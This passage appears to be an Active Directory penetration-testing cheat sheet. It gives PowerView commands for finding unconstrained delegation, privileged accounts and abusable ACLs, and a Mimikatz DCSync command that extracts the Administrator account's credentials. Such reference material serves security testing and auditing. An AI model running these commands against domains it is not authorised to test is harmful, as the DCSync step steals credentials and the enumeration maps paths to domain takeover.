 #### **Find Machines with Unconstrained Delegation**
To find computers that are vulnerable due to unconstrained delegation, which can be used for privilege escalation:
```powershell
Get-DomainComputer -Unconstrained
```

#### **Enumerate Privileged Accounts with AdminCount Set**
Use this command to enumerate users that are members of privileged groups (e.g., Domain Admins, Enterprise Admins):
```powershell
Get-DomainUser -AdminCount 1
```

### **Advanced Usage and Scripts**

#### **Running DCSync Attack**
If the user has the `Replicating Directory Changes` privilege, they can run a **DCSync** attack using the following command:
```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /domain:example.com /user:Administrator"
```

#### **Search for Interesting ACLs on Objects**
Search for any object with interesting permissions, like `GenericAll` or `WriteDACL`:
```powershell
Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "GenericAll" -or $_.ActiveDirectoryRights -match "WriteDACL" }
```

### **Miscellaneous Useful Commands**

#### **Find AD Computers Running a Specific OS**
To find all computers running a particular version of Windows (e.g., Windows 10):
```powershell
Get-DomainComputer -OperatingSystem "Windows 10*"
```

#### **Find Disabled Accounts**
To list all disabled user accounts in AD:
```powershell
Get-DomainUser -Enabled $false
```

#### **Find Locked-Out Accounts**
To list all locked-out user accounts in AD:
```powershell
Get-DomainUser -LockedOut
```


### 1. **Unconstrained Delegation**
Unconstrained delegation allows a service to impersonate users for any service. It is configured by setting the `TRUSTED_FOR_DELEGATION` flag in the `userAccountControl` attribute.
